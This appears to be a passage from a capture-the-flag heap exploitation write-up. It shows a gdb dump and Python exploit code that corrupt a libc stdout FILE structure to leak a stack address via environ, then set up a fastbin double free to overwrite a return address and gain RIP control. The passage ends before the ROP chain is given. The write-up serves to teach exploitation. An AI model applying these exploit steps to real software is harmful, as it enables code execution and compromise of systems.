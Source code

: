 We will make this as following:-

```r
$4 = {
  file = {
    _flags = 0xfbad1800, 
    _IO_read_ptr = 0 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_end = 0 <_IO_2_1_stdout_+131> "\n", 
    _IO_read_base = 0 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_base = environ <_IO_2_1_stdout_+131> "\n", 
    _IO_write_ptr = environ+0x20 <_IO_2_1_stdout_+131> "\n", 
    _IO_write_end = environ+0x20 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_base = environ+0x20 <_IO_2_1_stdout_+131> "\n", 
    _IO_buf_end = environ+0x21 <_IO_2_1_stdout_+132> "", 
```

This will result in leaking the stack address, from here we can calculate stack address as such that we will calculate the `ret` value so that we will take advantage of it.

```py
malloc(0,0x60,p64(_IO_2_1_stderr_200))
malloc(5,0x60,"A")
malloc(2,0x60,"B")
malloc(3,0x60,b"A"*8+p64(0xfbad1800)+p64(0x0)*3+p64(environ)+p64(environ+0x20)*3+p64(environ+0x21))
```

Now, once any IO based function will be called, we will get the leaks:-

```py
stack_leak = p.recvuntil(b"Malloc")

stack_leak = u64(stack_leak[1:9])
ret = stack_leak - 0x110 - 0x43
```

That being done, we can now move on to the `get_shell` part since from here we have the `ret` address, we can just do double free again and overwrite the return address, getting the RIP control.

# Get Shell

Now, we will fix the chunks again by allocating the `0x71` chunks:-

```py
malloc(0,0x60,b"A")
malloc(1,0x60,b"B")
malloc(2,0x60,b"C")
malloc(3,0x60,b"A")
malloc(4,0x60,b"B")
malloc(5,0x60,b"C")

free(0)
free(2)
free(0)
```

Now, we will just put the `ret` at `fd` of the `chunk[0]` also sufficing the size check done by the `malloc` so no exceptions happen, now we will just allocate chunks and overwrite the `ret` with a simple ROP chain:-
